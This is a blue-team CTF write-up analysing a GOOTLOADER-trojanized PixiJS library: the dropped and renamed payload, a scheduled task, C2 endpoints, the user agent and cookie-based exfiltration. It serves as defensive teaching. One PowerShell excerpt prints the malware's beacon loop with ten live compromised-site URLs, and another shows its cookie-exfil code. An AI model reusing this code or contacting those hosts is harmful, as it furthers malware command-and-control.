

# T1059-007 Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/t1059-007/](https://cyberdefenders.org/blueteam-ctf-challenges/t1059-007/)

Suggested tools: Notepad++, CyberChef, ProcMon, AutoRuns, Process Hacker, `diff`, PowerShell transcripts

Tactics: Execution

# Scenario

Our company's development team has been compromised by a fraudulent version of the PixiJS library, indicative of a GOOTLOADER malware attack, typically deployed by the known threat group UNC2565. Your task is to investigate the malicious behavior embedded in the fake library and assess the potential damage.

# Questions

Q1- Understanding the initial foothold of the malware is crucial for assessing its spread within our infrastructure. What is the file name that was dropped into the system by the injected code from the counterfeit PixiJS library?

Answer: `Case Report Forms.log`

Reason: The trojanized `pixi_malicious.js` is `1130437` bytes vs `1093532` for `pixi_original.js`, a `36905`-byte additive injection first diverging at `byte 12297`, `line 83` (confirmed with `cmp.exe`). The full library cannot run under Windows Script Host because the genuine ES6 `PixiJS` code throws a JScript compilation error at `line 10`, so the attacker-added code was isolated with `diff.exe -u` (keeping only the `+` lines) into `extracted_malicious_code.js` and detonated on its own with `cscript.exe` while `Process Monitor` captured activity. 

Filtering the trace to `cscript.exe` plus `Operation is WriteFile` showed the process (PID `3008`) writing a large padded file to `C:\Users\Administrator\AppData\Roaming\NuGet\Case Report Forms.log` at `6:29:48 PM` (box local time), the second-stage payload dropped by the injected GOOTLOADER code. Hiding a multi-megabyte `.log` inside a legitimate-looking vendor subfolder (`AppData\Roaming\NuGet\`) is characteristic GOOTLOADER tradecraft.

```powershell
# First we carve out the diff JS using diffutils then we run procmon using basic filters
Select-String -Path 'C:\Users\Administrator\Desktop\diff_out.txt' -Pattern '^> ' | ForEach-Object { $_.Line -replace '^> ','' } | Set-Content 'C:\Users\Administrator\Desktop\injected.js'
cscript.exe extracted_malicious_code.js
```



Q2- After initial infiltration, malware often changes its file name to evade detection. To track this threat more effectively, what is the new name that the file, initially dropped by the injected code, was renamed to?

Answer: `Fluid Catalytic Cracking.js`

Reason: After writing the staged `.log` blob, the loader renamed it to its final executable form. `Process Monitor` captured a `SetRenameInformationFile` operation (File System class) by `cscript.exe` (PID `3008`, thread `4884`) at `10/3/2026 6:30:42 PM` with Path `C:\Users\Administrator\AppData\Roaming\NuGet\Case Report Forms.log` and Detail `FileName: C:\Users\Administrator\AppData\Roaming\NuGet\Fluid Catalytic Cracking.js`, `ReplaceIfExists: False`, Result `SUCCESS`. This drop-then-rename turns the innocuous-looking `.log` into a `~43 MB` junk-padded `.js` (`Fluid Catalytic Cracking.js`) staged for execution, the file left behind in `AppData\Roaming\NuGet\`. Filtering ProcMon on `Operation is SetRenameInformationFile` surfaced the hop in one event.


Q3- To ensure thorough risk mitigation and prevent any potential backdoors. What is the name of the scheduled task created by the injected code?

Answer: `Service Improvement Plans`

Reason: AutoRuns (Scheduled Tasks tab, run as Administrator) listed one unsigned, non-Microsoft entry among the verified Microsoft/Google tasks: `\Service Improvement Plans`, with no publisher and Image Path `File not found: C:\Users\Administrator\AppData\Roaming\NuGet\wscript.exe`. This is the persistence mechanism the injected GOOTLOADER code registered during detonation (~`6:30 PM`, same window as the `Fluid Catalytic Cracking.js` drop) to re-launch the staged payload: the task invokes `wscript.exe` out of the malware's own `AppData\Roaming\NuGet\` folder to execute the renamed `.js`. Hiding verified Microsoft/Windows entries in AutoRuns isolated it immediately.


Q4- To assist our network team in identifying which hosts are compromised by the malicious JS file. How many URLs does this malware interact with?

Answer: 10

Reason: With PowerShell Transcription and Script Block Logging enabled via Group Policy (`gpupdate /force`), re-detonating the renamed payload (`cscript.exe '.\Fluid Catalytic Cracking.js'`) produced transcript `PowerShell_transcript.EC2AMAZ-I6RJG7O.0YD6Ervd.20261003190507.txt` at `2026-10-03 19:05:07` (box local). It captured the stage-2 C2 beacon loop: an infinite `while (1)` that calls `Get-Random` over a hardcoded array of `10` URLs, passes the chosen one to `EDASHLW(...)` (which invokes `GetResponse`), then `sleep -s 20` and repeats. All `10` are `https://.../xmlrpc.php` endpoints on compromised WordPress sites, GOOTLOADER's signature C2 channel. On the isolated box every beacon failed with `Unable to connect to the remote server`, confirming no successful callback.

```powershell
PS C:\Users\Administrator\Desktop\Start here\Artifacts> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.

PS C:\Users\Administrator\AppData\Roaming\NuGet> cscript.exe '.\Fluid Catalytic Cracking.js'
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

# C:\Users\Administrator\Desktop\ps_logs\20261003\PowerShell_transcript.EC2AMAZ-I6RJG7O.0YD6Ervd.20261003190507.txt
while (1)  {
    try {
        EDASHLW(@("https://gafner-wohnmobile.ch/xmlrpc.php", "https://gunlove.com/xmlrpc.php", "https://muukartesescenicas.com.ar/xmlrpc.php", "https://banoch.com/xmlrpc.php", "https://tentulogo.com/xmlrpc.php", "https://konex.vn/xmlrpc.php", "https://zenmanifesto.com/xmlrpc.php", "https://manufactured.com/xmlrpc.php", "https://futurestudypoint.com/xmlrpc.php", "https://hashtrust.io/xmlrpc.php") | Get - Random)
    } catch {};
    sleep  - s 20
}
[...]
PS C:\Users\Administrator\AppData\Roaming\NuGet> TerminatingError(): "Exception calling "GetResponse" with "0" argument(s): "Unable to connect to the remote server""
PS C:\Users\Administrator\AppData\Roaming\NuGet> TerminatingError(): "Exception calling "GetResponse" with "0" argument(s): "Unable to connect to the remote server""
PS C:\Users\Administrator\AppData\Roaming\NuGet> TerminatingError(): "Exception calling "GetResponse" with "0" argument(s): "Unable to connect to the remote server""
PS C:\Users\Administrator\AppData\Roaming\NuGet> TerminatingError(): "Exception calling "GetResponse" with "0" argument(s): "Unable to connect to the remote server""
PS C:\Users\Administrator\AppData\Roaming\NuGet> TerminatingError(): "Exception calling "GetResponse" with "0" argument(s): "Unable to connect to the remote server""
[...]

```


Q5- To effectively detect and prevent malicious traffic on our network, we need knowledge of malware's network IOCs behavior. What user agent does the malicious code use to communicate with malicious URLs?

Answer: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36`

Reason: The same PowerShell transcript (`PowerShell_transcript.EC2AMAZ-I6RJG7O.0YD6Ervd.20261003190507.txt`, `2026-10-03 19:05:07` box local) shows the C2 request object assigning `$XRvQxWL.UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"` before calling the `xmlrpc.php` endpoints. The hardcoded `Chrome/107.0.0.0` on `Win64` impersonates a legitimate browser so the beacon blends with normal web traffic, making this string a reliable network detection IOC (a static, outdated UA pinned across every host running this payload).

```powershell
# C:\Users\Administrator\Desktop\ps_logs\20261003\PowerShell_transcript.EC2AMAZ-I6RJG7O.0YD6Ervd.20261003190507.txt
$XRvQxWL.UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36";
```

Q6- Identifying how malware conceals its communications unveils its network footprint. What is the name of the 1st cookie used in the requests sent to malicious URLs?

Answer: `B3A3E99A9F`

Reason: The cookie header is built dynamically (`$XRvQxWL.Headers.Add("Cookie: $HGaZJkT=$jobAYQ; ...")`), so the literal name isn't visible in the raw line. Carving only the cookie-building function out of the transcript, appending `Write-Output $cookie`, and running it harmlessly against `http://127.0.0.1/` (no real beacon) resolved the first cookie as `B3A3E99A9F=H4sIAAAAAAAEA...`. The name `B3A3E99A9F` is the value of `$HGaZJkT` (a per-sample random key), and the value begins `H4sI`, the Base64 signature of a gzip stream, i.e. GOOTLOADER gzip-compresses and Base64-encodes host-reconnaissance data and smuggles it to the C2 as cookie values, with the base key plus numbered variants (`B3A3E99A9F`, `B3A3E99A9F1`...`B3A3E99A9F4`) carrying the chunks. MITRE T1071.001 / T1132.001.

```powershell
# Carving only the function definition and adding a cookie console output from the main PS log transcript file (entire function without the subsequent HTTP calls)
[...]$HGaZJkT`4=$nRTD";Write-Output $cookie;$XRvQxWL.Headers.Add($cookie);}
PS C:\Users\Administrator\Desktop\ps_logs\20261003> EDASHLW "http://127.0.0.1/"
Cookie: B3A3E99A9F=H4sIAAAAAAAEA [...]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery / Injection | Trojanized library | `pixi_malicious.js` (`1130437` bytes vs `1093532` original) |
|  | Injection size | `36905` bytes, additive |
|  | First divergence | `byte 12297`, `line 83` (`cmp.exe`) |
| Execution | Interpreter | `cscript.exe` / Windows Script Host (JScript) |
|  | Technique | T1059.007 (JavaScript) |
| Dropped Files | Staged payload | `C:\Users\Administrator\AppData\Roaming\NuGet\Case Report Forms.log` |
|  | Renamed payload | `C:\Users\Administrator\AppData\Roaming\NuGet\Fluid Catalytic Cracking.js` (~`43 MB`) |
|  | Rename operation | `SetRenameInformationFile` (ProcMon) |
| Persistence | Scheduled task | `Service Improvement Plans` |
|  | Task action | `wscript.exe` out of `C:\Users\Administrator\AppData\Roaming\NuGet\` |
|  | Technique | T1053.005 (Scheduled Task); registered via Task Scheduler COM, not `schtasks.exe` |
| C2 / Network | Channel | compromised-WordPress `xmlrpc.php` endpoints (`10` total) |
|  | URL | `hxxps://gafner-wohnmobile[.]ch/xmlrpc.php` |
|  | URL | `hxxps://gunlove[.]com/xmlrpc.php` |
|  | URL | `hxxps://muukartesescenicas[.]com[.]ar/xmlrpc.php` |
|  | URL | `hxxps://banoch[.]com/xmlrpc.php` |
|  | URL | `hxxps://tentulogo[.]com/xmlrpc.php` |
|  | URL | `hxxps://konex[.]vn/xmlrpc.php` |
|  | URL | `hxxps://zenmanifesto[.]com/xmlrpc.php` |
|  | URL | `hxxps://manufactured[.]com/xmlrpc.php` |
|  | URL | `hxxps://futurestudypoint[.]com/xmlrpc.php` |
|  | URL | `hxxps://hashtrust[.]io/xmlrpc.php` |
|  | Beacon logic | `while(1)` -> `Get-Random` URL -> request -> `sleep -s 20` |
|  | User-Agent | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36` |
| Obfuscation / Encoding | Code obfuscation | word-salad variable concatenation + multi-MB junk padding |
|  | Host-recon exfil | gzip + Base64 cookie values (`H4sI` prefix), T1132.001 |
|  | 1st cookie name | `B3A3E99A9F` (plus numbered variants `B3A3E99A9F1`..`B3A3E99A9F4`) |

# Lab Insights

- **Hiding malice inside the real thing:** GOOTLOADER never ships a standalone dropper; it grafts WSH-compatible JScript into a genuine, popular library (`PixiJS`) so the file passes casual inspection and keeps the library's legitimate bulk as camouflage. The investigative unlock is differential analysis: `cmp`/`diff` against a known-good copy turns a 1 MB haystack into a `37 KB` needle, and the fact the injection is purely additive means every malicious byte lives in the delta.
- **The runtime gap is a feature, not a bug:** The whole file refuses to run because the genuine ES6 library trips the ancient WSH JScript engine, while the attacker's code is deliberately written to that old dialect. Recognizing that split is what lets you detonate just the carved payload rather than fighting a compile error, and it is the same reason victims execute the malware at all when they double-click the file.
- **Static and dynamic are a loop, not a choice:** Carving located the code, but detonation under ProcMon proved the behavior (drop, rename, task), and only logging-instrumented re-detonation surfaced the obfuscated PowerShell. Each layer answered what the previous could not, and on an air-gapped box the C2 failures themselves were evidence, confirming intent without ever risking a real callback.
- **Telemetry has to exist before the event:** Comprehensive PowerShell logging is off by default, so the decisive artifacts (the `10`URL beacon, the spoofed UA, the gzip cookie recon) only existed because Transcription and Script Block Logging were enabled and `gpupdate`'d before the re-run. The defensive lesson is that these should be standing policy, not something switched on after an incident when the interesting executions have already happened.
- **Encoding is where the real IOCs hide:** The payload does its talking in `Get-Random`rotated compromised-WordPress `xmlrpc.php` URLs and gzip+Base64 cookie values, so surface-level traffic looks like ordinary browser requests to real sites. Durable detections come from the invariants the attacker reused: the pinned outdated `Chrome/107` user agent, the fixed `20`second beacon cadence, and the `xmlrpc.php` POST pattern against a rotating host list.